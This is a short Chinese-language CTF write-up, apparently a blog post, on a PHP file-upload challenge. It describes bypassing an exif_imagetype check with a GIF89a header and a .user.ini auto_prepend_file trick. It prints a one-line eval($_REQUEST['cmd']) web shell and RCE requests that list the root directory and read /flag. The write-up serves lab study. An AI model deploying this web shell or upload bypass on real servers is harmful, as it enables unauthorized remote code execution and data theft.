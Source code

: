 ```yaml
---
title: Checkin
date: 2023-10-17T13:06:03+08:00
slug: b92f36b
tags:
  - PHP
  - RCE
categories:
  - CTF
---
```


## 1

  

常规步骤之后，上传了`.htaccess`文件，不过发现被限制了。

返回了一个：

```SQL

exif_imagetype:not image!

```

<!-- more -->

  

<a href=https://www.php.net/manual/zh/function.exif-imagetype.php>exif_imagetype函数</a>

简单来说就是，上传文件白名单机制。

QAQ

新英雄登场

`.user.ini`文件

php目录配置文件，作用为：

>当我们访问目录中的任何php文件时，都会调用.user.ini中指的文件以php的形式进行读取。

文件内容为

```ini

GIF89a

auto_prepend_file=po.jpg

```

之后就可以常规步骤一顿操作。

  

### 2

  

这里也有了新一种方法`用传进去的cmd 进行rce`——其前提是传入的木马文件内容为：

```script

GIF89a

<script language='php'>eval($_REQUEST['cmd']);</script>

```

然后

```cmd

uploads/xxx/index.php?cmd=var_dump(scandir("/")); // 扫描当前目录下的文件，并打印出来

  

uploads/xxx/index.php?cmd=system('cat /flag');

  

uploads/xxx/index.php?cmd=var_dump(file_get_contents("/flag"));

```

  
  
  
  

-----

### 3

ps：图片文件头前缀（作用是？）

  

```txt

JPG:FF D8 FF E0 00 10 4A 46 49 46（16进制编码）

GIF：47 49 46 38 39 61（ascll值是GIF89a）

PNG： 89 50 4E 47

  

```

  

<a href=https://www.cnblogs.com/zhiliu/p/16825982.html>参考一下</a>

<a href=https://www.cnblogs.com/cjjcn/p/13954347.html>常见文件头/尾总结</a>

php解析文件值得关注

<hr>

2024：现在看起来好肤浅的笔记……
